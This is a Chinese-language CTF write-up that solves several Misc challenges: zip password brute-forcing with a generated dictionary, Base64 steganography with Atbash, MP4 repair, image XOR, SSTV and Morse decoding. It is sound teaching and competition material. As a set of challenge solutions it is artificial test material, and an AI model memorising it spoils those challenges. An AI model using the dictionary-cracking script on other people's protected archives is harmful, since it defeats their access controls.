队伍：<font style="background-color:rgba(255, 255, 255, 0);">Aura&Jumping</font>

## <font style="color:rgb(107, 0, 64);">M</font><font style="color:rgb(0, 54, 111);">isc</font>
### 这是一个压缩包
给了一个带密码的压缩包，可以在描述信息里面看到一串密文。

:::color3
QmFzZUNURj8/Pz8/P0ZUQ2VzYUI=

:::

Base64 解一下。

:::color3
BaseCTF??????FTCesaB

:::

这个应该是压缩包密码，? 是掩码，但是直接爆破 6 位要跑非常久。

仔细观察，猜测这应该是一个轴对称的密码，因此我们只需要爆破 BaseCTF??? 中的 ?，最后的密码就是这个字符串拼上翻转的这个字符串。

这里使用 python 生成了密码字典，再通过 ARCHPR 进行字典爆破。

```python
lowercase = 'abcdefghijklmnopqrstuvwxyz'
uppercase = lowercase.upper()
digits = '0123456789'
symbols = '!@#$%^&*()-_=+'
ls = lowercase+uppercase+digits+symbols
with open('passwd.txt','w') as f:
    for t1 in ls:
        for t2 in ls:
            for t3 in ls:
                password = 'BaseCTF'+t1+t2+t3+t3+t2+t1+'FTCesaB'
                f.write(password+'\n')
```



解压后即可拿到 flag。

### Base revenge
```plain
VGl0bGU6IFRoZSBFbmlnbWF0aWMgQ29kZSBvZiBNaXNjIEJhc2U2NE==
R3JlZXRpbmdzLCBwdXp6bGUgZW50aHVzaWFzdHMgYW5kIGNvZGVicmVha2VycyBhbGlrZSEgVG9kYXks
d2UgZGVsdmUgaW50byB0aGUgcmVhbG0gb2YgdGhlIGVuaWdtYXRpYyBNaXNjIEJhc2U2NCy=
YSBjcnlwdG9ncmFwaGljIHB1enpsZSB0aGF0IGNoYWxsZW5nZXMgdGhlIGtlZW5lc3QgbWluZHMu
QXJlIHlvdSByZWFkeSB0byBlbWJhcmsgb24gYSBqb3VybmV5IG9mIGRlY29kaW5nIGFuZCBkaXNjb3Zlcnk/
SW1hZ2luZSB5b3Vyc2VsZiBpbiB0aGUgbWlkc3Qgb2YgYSBkaWdpdGFsIGxhYnlyaW50aCy=
d2hlcmUgc3RyaW5ncyBvZiBjaGFyYWN0ZXJzIGhvbGQgc2VjcmV0cyB3YWl0aW5nIHRvIGJlIHVudmVpbGVkLm==
TWlzYyBCYXNlNjQgaXMgbm90IHlvdXIgb3JkaW5hcnkgY2lwaGVy4oCUaXQgY29uY2VhbHMgbWVzc2FnZXP=
aW4gcGxhaW4gc2lnaHQsIGF3YWl0aW5nIHRob3NlIHdpdGggdGhlIHJpZ2h0IHRvb2xz
YW5kIHNraWxscyB0byBkZWNpcGhlciBpdHMgY29kZS6=
QXMgeW91IHVucmF2ZWwgdGhlIGxheWVycyBvZiBNaXNjIEJhc2U2NCwgZWFjaCBkZWNvZGVkIG1lc3NhZ2V=
cmV2ZWFscyBhIGZyYWdtZW50IG9mIGEgbGFyZ2VyIHB1enpsZS5=
UGVyaGFwcyBpdCdzIGEgcmlkZGxlLCBhIHBpZWNlIG9mIHRyaXZpYSwgb3IgZXZlbiBhIHBsYXlmdWwgY2hhbGxlbmdlLl==
VGhlIGJlYXV0eSBvZiBNaXNjIEJhc2U2NCBsaWVzIG5vdCBvbmx5IGluIGl0cyBjb21wbGV4aXR5
YnV0IGFsc28gaW4gaXRzIGFiaWxpdHkgdG8gZW5nYWdlIGFuZCBpbnRyaWd1ZS5=
Rm9yIHRob3NlIG5ldyB0byB0aGUgd29ybGQgb2YgY3J5cHRvZ3JhcGh5LCBmZWFyIG5vdCG=
TWlzYyBCYXNlNjQgd2VsY29tZXMgYmVnaW5uZXJzIHdpdGggb3BlbiBhcm1zLB==
b2ZmZXJpbmcgYSBnYXRld2F5IGludG8gdGhlIHdvcmxkIG9mIGNvZGVzIGFuZCBjaXBoZXJzLk==
V2l0aCBhIGJpdCBvZiBwYXRpZW5jZSBhbmQgYSB3aWxsaW5nbmVzcyB0byB0aGluayBvdXRzaWRlIHRoZSBib3gs
eW91IHRvbyBjYW4gam9pbiB0aGUgcmFua3Mgb2Ygc2Vhc29uZWQgY29kZWJyZWFrZXJzLh==
SW1hZ2luZSB0aGUgdGhyaWxsIG9mIGNyYWNraW5nIGEgcGFydGljdWxhcmx5IHN0dWJib3JuIGNvZGUs
d2hlcmUgZWFjaCBjb3JyZWN0IGRlY29kaW5nIGJyaW5ncyB5b3UgY2xvc2VyIHRvIHRoZSBoZWFydE==
b2YgdGhlIHB1enpsZS5=
VGhlIHNhdGlzZmFjdGlvbiBvZiBzZWVpbmcgbGV0dGVycyBhbmQgbnVtYmVycyB0cmFuc2Zvcm2=
aW50byBjb2hlcmVudCB3b3JkcyBhbmQgc2VudGVuY2VzIGlzIHVucGFyYWxsZWxlZOKAlE==
YSB0ZXN0YW1lbnQgdG8geW91ciBwZXJzZXZlcmFuY2UgYW5kIGFuYWx5dGljYWwgcHJvd2Vzcy7=
SW4gdGhlIHJlYWxtIG9mIE1pc2MgQmFzZTY0LCBjcmVhdGl2aXR5IHJlaWducyBzdXByZW1lLl==
QXMgeW91IGVuY291bnRlciBkaWZmZXJlbnQgcHV6emxlcywgeW91J2xsIGZpbmQgeW91cnNlbGY=
dGhpbmtpbmcgaW4gbmV3IHdheXMsIGV4cGxvcmluZyB2YXJpb3VzIHRlY2huaXF1ZXMs
YW5kIGhvbmluZyB5b3VyIHByb2JsZW0tc29sdmluZyBza2lsbHMu
RWFjaCBzb2x2ZWQgcHV6emxlIGJlY29tZXMgYSBiYWRnZSBvZiBob25vcuKAlG==
YSB0ZXN0YW1lbnQgdG8geW91ciBkZWRpY2F0aW9uIGFuZCBhYmlsaXR5
dG8gbmF2aWdhdGUgdGhlIGludHJpY2F0ZSBwYXRocyBvZiBjcnlwdG9ncmFwaHku
QnV0IGJld2FyZSwgZm9yIE1pc2MgQmFzZTY0IGlzIG5vdCB3aXRob3V0IGl0cyBjaGFsbGVuZ2VzLk==
U29tZSBwdXp6bGVzIG1heSBzZWVtIGluc2NydXRhYmxlIGF0IGZpcnN0IGdsYW5jZSy=
cmVxdWlyaW5nIG5vdCBvbmx5IHRlY2huaWNhbCBrbm93bGVkZ2V=
YnV0IGFsc28gYSBkYXNoIG9mIGludHVpdGlvbm==
YW5kIGEga2VlbiBleWUgZm9yIHBhdHRlcm5zLt==
SXQncyBhIHRlc3Qgb2Ygd2l0IGFuZCBkZXRlcm1pbmF0aW9u4oCU
YSBwdXp6bGUgdGhhdCByZXdhcmRzIHRob3NlIHdobyBhcmUgd2lsbGluZ2==
dG8gcmlzZSB0byB0aGUgb2NjYXNpb24u
U28sIGZlbGxvdyBhZHZlbnR1cmVycywgYXJlIHlvdSByZWFkeX==
dG8gdGFrZSBvbiB0aGUgY2hhbGxlbmdlIG9mIE1pc2MgQmFzZTY0P0==
TGV0IGVhY2ggZW5jb2RlZCBzdHJpbmcgYmUgYSBzdGVwcGluZyBzdG9uZR==
aW4geW91ciBxdWVzdCBmb3Iga25vd2xlZGdlIGFuZCBkaXNjb3Zlcnku
V2hvIGtub3dzIHdoYXQgc2VjcmV0cyBhd2FpdCB0aG9zZSB3aG8gZGFyZU==
dG8gdmVudHVyZSBpbnRvIHRoZSB3b3JsZCBvZiBjcnlwdGljIHB1enpsZXM/
RW1icmFjZSB0aGUgdGhyaWxsIG9mIHRoZSBjaGFzZSz=
dGhlIGpveSBvZiBkZWNpcGhlcmluZyy=
YW5kIHRoZSBzYXRpc2ZhY3Rpb24gb2YgdW5yYXZlbGluZyBhIG15c3Rlcnku
SW4gdGhlIHJlYWxtIG9mIE1pc2MgQmFzZTY0LF==
ZXZlcnkgcHV6emxlIHNvbHZlZCBicmluZ3MgeW91IGNsb3Nlcj==
dG8gdW5yYXZlbGluZyB0aGUgdWx0aW1hdGUgcXVlc3Rpb246
d2hhdCBoaWRkZW4gdHJlYXN1cmVzIGxpZSBiZW5lYXRo
dGhlIHN1cmZhY2Ugb2YgZWFjaCBlbmNvZGVkIG1lc3NhZ2U/
Sm9pbiB1cyBvbiB0aGlzIGpvdXJuZXkgb2YgZXhwbG9yYXRpb24gYW5kIGludHJpZ3VlLk==
TGV0IE1pc2MgQmFzZTY0IGJlIHlvdXIgZ3VpZGV=
dG8gYSB3b3JsZCB3aGVyZSBjdXJpb3NpdHkga25vd3Mgbm8gYm91bmRz
YW5kIGV2ZXJ5IHB1enpsZSBzb2x2ZWQgaXMgYSB0cml1bXBo
b2YgdGhlIGh1bWFuIGludGVsbGVjdC5=
SGFwcHkgZGVjb2Rpbmch
VGl0bGU6IFRoZSBFbmlnbWF0aWMgQ29kZSBvZiBNaXNjIEJhc2U2NH==
R3JlZXRpbmdzLCBwdXp6bGUgZW50aHVzaWFzdHMgYW5kIGNvZGVicmVha2VycyBhbGlrZSEgVG9kYXks
d2UgZGVsdmUgaW50byB0aGUgcmVhbG0gb2YgdGhlIGVuaWdtYXRpYyBNaXNjIEJhc2U2NCx=
YSBjcnlwdG9ncmFwaGljIHB1enpsZSB0aGF0IGNoYWxsZW5nZXMgdGhlIGtlZW5lc3QgbWluZHMu
QXJlIHlvdSByZWFkeSB0byBlbWJhcmsgb24gYSBqb3VybmV5IG9mIGRlY29kaW5nIGFuZCBkaXNjb3Zlcnk/
SW1hZ2luZSB5b3Vyc2VsZiBpbiB0aGUgbWlkc3Qgb2YgYSBkaWdpdGFsIGxhYnlyaW50aCx=
d2hlcmUgc3RyaW5ncyBvZiBjaGFyYWN0ZXJzIGhvbGQgc2VjcmV0cyB3YWl0aW5nIHRvIGJlIHVudmVpbGVkLk==
TWlzYyBCYXNlNjQgaXMgbm90IHlvdXIgb3JkaW5hcnkgY2lwaGVy4oCUaXQgY29uY2VhbHMgbWVzc2FnZXM=
aW4gcGxhaW4gc2lnaHQsIGF3YWl0aW5nIHRob3NlIHdpdGggdGhlIHJpZ2h0IHRvb2xz
YW5kIHNraWxscyB0byBkZWNpcGhlciBpdHMgY29kZS5=
QXMgeW91IHVucmF2ZWwgdGhlIGxheWVycyBvZiBNaXNjIEJhc2U2NCwgZWFjaCBkZWNvZGVkIG1lc3NhZ2V=
cmV2ZWFscyBhIGZyYWdtZW50IG9mIGEgbGFyZ2VyIHB1enpsZS5=
UGVyaGFwcyBpdCdzIGEgcmlkZGxlLCBhIHBpZWNlIG9mIHRyaXZpYSwgb3IgZXZlbiBhIHBsYXlmdWwgY2hhbGxlbmdlLn==
VGhlIGJlYXV0eSBvZiBNaXNjIEJhc2U2NCBsaWVzIG5vdCBvbmx5IGluIGl0cyBjb21wbGV4aXR5
YnV0IGFsc28gaW4gaXRzIGFiaWxpdHkgdG8gZW5nYWdlIGFuZCBpbnRyaWd1ZS5=
Rm9yIHRob3NlIG5ldyB0byB0aGUgd29ybGQgb2YgY3J5cHRvZ3JhcGh5LCBmZWFyIG5vdCF=
TWlzYyBCYXNlNjQgd2VsY29tZXMgYmVnaW5uZXJzIHdpdGggb3BlbiBhcm1zLJ==
b2ZmZXJpbmcgYSBnYXRld2F5IGludG8gdGhlIHdvcmxkIG9mIGNvZGVzIGFuZCBjaXBoZXJzLn==
V2l0aCBhIGJpdCBvZiBwYXRpZW5jZSBhbmQgYSB3aWxsaW5nbmVzcyB0byB0aGluayBvdXRzaWRlIHRoZSBib3gs
eW91IHRvbyBjYW4gam9pbiB0aGUgcmFua3Mgb2Ygc2Vhc29uZWQgY29kZWJyZWFrZXJzLl==
SW1hZ2luZSB0aGUgdGhyaWxsIG9mIGNyYWNraW5nIGEgcGFydGljdWxhcmx5IHN0dWJib3JuIGNvZGUs
d2hlcmUgZWFjaCBjb3JyZWN0IGRlY29kaW5nIGJyaW5ncyB5b3UgY2xvc2VyIHRvIHRoZSBoZWFydE==
b2YgdGhlIHB1enpsZS4=
VGhlIHNhdGlzZmFjdGlvbiBvZiBzZWVpbmcgbGV0dGVycyBhbmQgbnVtYmVycyB0cmFuc2Zvcm2=
aW50byBjb2hlcmVudCB3b3JkcyBhbmQgc2VudGVuY2VzIGlzIHVucGFyYWxsZWxlZOKAlE==
YSB0ZXN0YW1lbnQgdG8geW91ciBwZXJzZXZlcmFuY2UgYW5kIGFuYWx5dGljYWwgcHJvd2Vzcy5=
SW4gdGhlIHJlYWxtIG9mIE1pc2MgQmFzZTY0LCBjcmVhdGl2aXR5IHJlaWducyBzdXByZW1lLk==
QXMgeW91IGVuY291bnRlciBkaWZmZXJlbnQgcHV6emxlcywgeW91J2xsIGZpbmQgeW91cnNlbGb=
dGhpbmtpbmcgaW4gbmV3IHdheXMsIGV4cGxvcmluZyB2YXJpb3VzIHRlY2huaXF1ZXMs
YW5kIGhvbmluZyB5b3VyIHByb2JsZW0tc29sdmluZyBza2lsbHMu
RWFjaCBzb2x2ZWQgcHV6emxlIGJlY29tZXMgYSBiYWRnZSBvZiBob25vcuKAlJ==
YSB0ZXN0YW1lbnQgdG8geW91ciBkZWRpY2F0aW9uIGFuZCBhYmlsaXR5
dG8gbmF2aWdhdGUgdGhlIGludHJpY2F0ZSBwYXRocyBvZiBjcnlwdG9ncmFwaHku
QnV0IGJld2FyZSwgZm9yIE1pc2MgQmFzZTY0IGlzIG5vdCB3aXRob3V0IGl0cyBjaGFsbGVuZ2VzLl==
U29tZSBwdXp6bGVzIG1heSBzZWVtIGluc2NydXRhYmxlIGF0IGZpcnN0IGdsYW5jZSw=
cmVxdWlyaW5nIG5vdCBvbmx5IHRlY2huaWNhbCBrbm93bGVkZ2X=
YnV0IGFsc28gYSBkYXNoIG9mIGludHVpdGlvbn==
YW5kIGEga2VlbiBleWUgZm9yIHBhdHRlcm5zLp==
SXQncyBhIHRlc3Qgb2Ygd2l0IGFuZCBkZXRlcm1pbmF0aW9u4oCU
YSBwdXp6bGUgdGhhdCByZXdhcmRzIHRob3NlIHdobyBhcmUgd2lsbGluZ2==
dG8gcmlzZSB0byB0aGUgb2NjYXNpb24u
U28sIGZlbGxvdyBhZHZlbnR1cmVycywgYXJlIHlvdSByZWFkeR==
dG8gdGFrZSBvbiB0aGUgY2hhbGxlbmdlIG9mIE1pc2MgQmFzZTY0P1==
TGV0IGVhY2ggZW5jb2RlZCBzdHJpbmcgYmUgYSBzdGVwcGluZyBzdG9uZZ==
aW4geW91ciBxdWVzdCBmb3Iga25vd2xlZGdlIGFuZCBkaXNjb3Zlcnku
V2hvIGtub3dzIHdoYXQgc2VjcmV0cyBhd2FpdCB0aG9zZSB3aG8gZGFyZX==
dG8gdmVudHVyZSBpbnRvIHRoZSB3b3JsZCBvZiBjcnlwdGljIHB1enpsZXM/
RW1icmFjZSB0aGUgdGhyaWxsIG9mIHRoZSBjaGFzZSw=
dGhlIGpveSBvZiBkZWNpcGhlcmluZyw=
YW5kIHRoZSBzYXRpc2ZhY3Rpb24gb2YgdW5yYXZlbGluZyBhIG15c3Rlcnku
SW4gdGhlIHJlYWxtIG9mIE1pc2MgQmFzZTY0LE==
ZXZlcnkgcHV6emxlIHNvbHZlZCBicmluZ3MgeW91IGNsb3Nlcj==
dG8gdW5yYXZlbGluZyB0aGUgdWx0aW1hdGUgcXVlc3Rpb246
d2hhdCBoaWRkZW4gdHJlYXN1cmVzIGxpZSBiZW5lYXRo
dGhlIHN1cmZhY2Ugb2YgZWFjaCBlbmNvZGVkIG1lc3NhZ2U/
Sm9pbiB1cyBvbiB0aGlzIGpvdXJuZXkgb2YgZXhwbG9yYXRpb24gYW5kIGludHJpZ3VlLj==
TGV0IE1pc2MgQmFzZTY0IGJlIHlvdXIgZ3VpZGU=
dG8gYSB3b3JsZCB3aGVyZSBjdXJpb3NpdHkga25vd3Mgbm8gYm91bmRz
YW5kIGV2ZXJ5IHB1enpsZSBzb2x2ZWQgaXMgYSB0cml1bXBo
b2YgdGhlIGh1bWFuIGludGVsbGVjdC6=
SGFwcHkgZGVjb2Rpbmch
VGl0bGU6IFRoZSBFbmlnbWF0aWMgQ29kZSBvZiBNaXNjIEJhc2U2NG==
R3JlZXRpbmdzLCBwdXp6bGUgZW50aHVzaWFzdHMgYW5kIGNvZGVicmVha2VycyBhbGlrZSEgVG9kYXks
d2UgZGVsdmUgaW50byB0aGUgcmVhbG0gb2YgdGhlIGVuaWdtYXRpYyBNaXNjIEJhc2U2NCz=
YSBjcnlwdG9ncmFwaGljIHB1enpsZSB0aGF0IGNoYWxsZW5nZXMgdGhlIGtlZW5lc3QgbWluZHMu
QXJlIHlvdSByZWFkeSB0byBlbWJhcmsgb24gYSBqb3VybmV5IG9mIGRlY29kaW5nIGFuZCBkaXNjb3Zlcnk/
SW1hZ2luZSB5b3Vyc2VsZiBpbiB0aGUgbWlkc3Qgb2YgYSBkaWdpdGFsIGxhYnlyaW50aCw=
d2hlcmUgc3RyaW5ncyBvZiBjaGFyYWN0ZXJzIGhvbGQgc2VjcmV0cyB3YWl0aW5nIHRvIGJlIHVudmVpbGVkLm==
TWlzYyBCYXNlNjQgaXMgbm90IHlvdXIgb3JkaW5hcnkgY2lwaGVy4oCUaXQgY29uY2VhbHMgbWVzc2FnZXN=
aW4gcGxhaW4gc2lnaHQsIGF3YWl0aW5nIHRob3NlIHdpdGggdGhlIHJpZ2h0IHRvb2xz
YW5kIHNraWxscyB0byBkZWNpcGhlciBpdHMgY29kZS4=
QXMgeW91IHVucmF2ZWwgdGhlIGxheWVycyBvZiBNaXNjIEJhc2U2NCwgZWFjaCBkZWNvZGVkIG1lc3NhZ2V=
cmV2ZWFscyBhIGZyYWdtZW50IG9mIGEgbGFyZ2VyIHB1enpsZS4=
UGVyaGFwcyBpdCdzIGEgcmlkZGxlLCBhIHBpZWNlIG9mIHRyaXZpYSwgb3IgZXZlbiBhIHBsYXlmdWwgY2hhbGxlbmdlLi==
VGhlIGJlYXV0eSBvZiBNaXNjIEJhc2U2NCBsaWVzIG5vdCBvbmx5IGluIGl0cyBjb21wbGV4aXR5
YnV0IGFsc28gaW4gaXRzIGFiaWxpdHkgdG8gZW5nYWdlIGFuZCBpbnRyaWd1ZS5=
Rm9yIHRob3NlIG5ldyB0byB0aGUgd29ybGQgb2YgY3J5cHRvZ3JhcGh5LCBmZWFyIG5vdCH=
TWlzYyBCYXNlNjQgd2VsY29tZXMgYmVnaW5uZXJzIHdpdGggb3BlbiBhcm1zLC==
b2ZmZXJpbmcgYSBnYXRld2F5IGludG8gdGhlIHdvcmxkIG9mIGNvZGVzIGFuZCBjaXBoZXJzLl==
V2l0aCBhIGJpdCBvZiBwYXRpZW5jZSBhbmQgYSB3aWxsaW5nbmVzcyB0byB0aGluayBvdXRzaWRlIHRoZSBib3gs
eW91IHRvbyBjYW4gam9pbiB0aGUgcmFua3Mgb2Ygc2Vhc29uZWQgY29kZWJyZWFrZXJzLl==
SW1hZ2luZSB0aGUgdGhyaWxsIG9mIGNyYWNraW5nIGEgcGFydGljdWxhcmx5IHN0dWJib3JuIGNvZGUs
d2hlcmUgZWFjaCBjb3JyZWN0IGRlY29kaW5nIGJyaW5ncyB5b3UgY2xvc2VyIHRvIHRoZSBoZWFydD==
b2YgdGhlIHB1enpsZS6=
VGhlIHNhdGlzZmFjdGlvbiBvZiBzZWVpbmcgbGV0dGVycyBhbmQgbnVtYmVycyB0cmFuc2Zvcm1=

give you a hint：{Gs1h_1h_nb_srmg}
```

给了一大串 Base64，以及一个 hint。

把 hint 丢入随波逐流，跑了一下，发现是 Atbash。

上面的 Base64 直接解找不到 flag，其实这个是 Base64 隐写，解一下得到一个字符串。

:::color3
JnUaAFMFImgANSEuAWYuBE9SyaYpC2ldBrU9

:::

根据刚才的提示，我们先对这个字符串进行 Atbash 解密。

:::color3
QmFzZUNURntZMHVfZDBfYV9HbzBkX2owYiF9

:::

然后再进行 Base64 Decode 就能得到 flag。

### broken.mp4
社工+杂项。


给了两个 mp4，其中一个坏掉了，需要我们修复。

看第一个 mp4，里面就是有关修复 mp4 的相关内容，提取关键信息搜索该视频中展现的网站。


找到了 [【视频图像篇】MP4受损视频修复方法（一）_untrunc-CSDN博客](https://blog.csdn.net/NDASH/article/details/136151418)。

使用该网站中的工具 untrunc 即可修复。



修好以后可以在恢复后的 mp4 中找到 flag。



### 纯鹿人
给了一个 word 文档，还是老套路，染色，去隐藏，得到一个字符串。

:::color3
cGFzc3dvcmTvvJppa3VuaWt1bg==

:::

:::color3
password: ikunikun

:::

得到一个密码，可能和 word 文档中的图片有关，把图片提出来（把 word 文档后缀改为 zip，解压后在里面找到图片），然后 binwalk 分离，得到一个压缩包。

压缩包密码就是刚才解出来的，解压后得到 flag。

### 白丝上的flag
给了一张~~很好看~~的白丝照片，和一个加密脚本，以及加密后的 en_image。

```python
from PIL import Image
from random import randint
import sys

def ez_add(a,b,c,d):
    global iv
    h = (a+b+c+d+iv) % 256
    e = b
    f = c
    g = d
    iv = (b+c+d+iv) % 256
    return e,f,g,h

def confuse(data):
    r,g,b,a = data
    for _ in range(8):
        r,g,b,a = ez_add(r,g,b,a)
    return r,g,b,a

def confuse_image(flag):
    global iv
    iv = flag.getpixel((1,1))[0]
    img = Image.new('RGBA', (flag.width, flag.height))
    for w in range(img.width):
        for h in range(img.height):
            img.putpixel((w, h), confuse(flag.getpixel((w,h))))
    return img

if __name__ == '__main__':
    iv = 0
    flag = Image.open("de_image.png")
    img = confuse_image(flag)
    img.save("en_image.png")
```

其实就是对 de_image 中的每一个像素点做了混淆。

我们其实可以看题目描述，那张白丝照片其实是**写入flag前的图片 **，那我们可以把白丝照片也进行上述加密，然后和 en_image 进行双图异或，从而得到写入的 flag。



### 我要吃火腿！
给了一个 txt 文档和损坏的 jpg。

txt 文档中的内容是兽音加密，解一下即可得到加密脚本。

```python
def xor_with_ham(input_file, output_file):
    ham_bytes = [0x48, 0x61, 0x6D]
    
    with open(input_file, 'rb') as f:
        data = bytearray(f.read())

    for i in range(len(data)):
        data[i] ^= ham_bytes[i % 3]

    with open(output_file, 'wb') as f:
        f.write(data)

xor_with_ham('Hamorl.jpg', 'Ham.jpg')
```

解密也很简单，把损坏的 jpg 放进去再跑一遍即可。

修好的 jpg 用 binwalk 分一下，发现分不了。改用 foremost 可以分出来东西，一个 wav 音频。

听一下，疑似 SSTV，用工具 RXSSTV 跑一下即可看到 flag。

（使用虚拟声卡跑是最方便的，不会受杂音干扰）



### 外星信号
给了一段音频，听一下，疑似摩斯密码，用在线网站直接听出来。

:::color3
THERE-IS-NO-FLAG-HERE-THERE-IS-NO-FLAG-HERE-THERE-IS-NO-FLAG-HERE-LET-US-GOBASECTF#2EBE6FDC-60DC-

:::

很显然这只是 flag 的一部分，我们可以 binwalk 分一下这个音频。

分离之后得到一个压缩包，解压后得到 flag.mp3，听一下，前半部分是摩斯密码，后半部分疑似 SSTV，用工具 RXSSTV 跑一下，得到如下内容。



仔细观察，其实这还是摩斯密码，抄下来解一下即可。

注意最后一行还有！

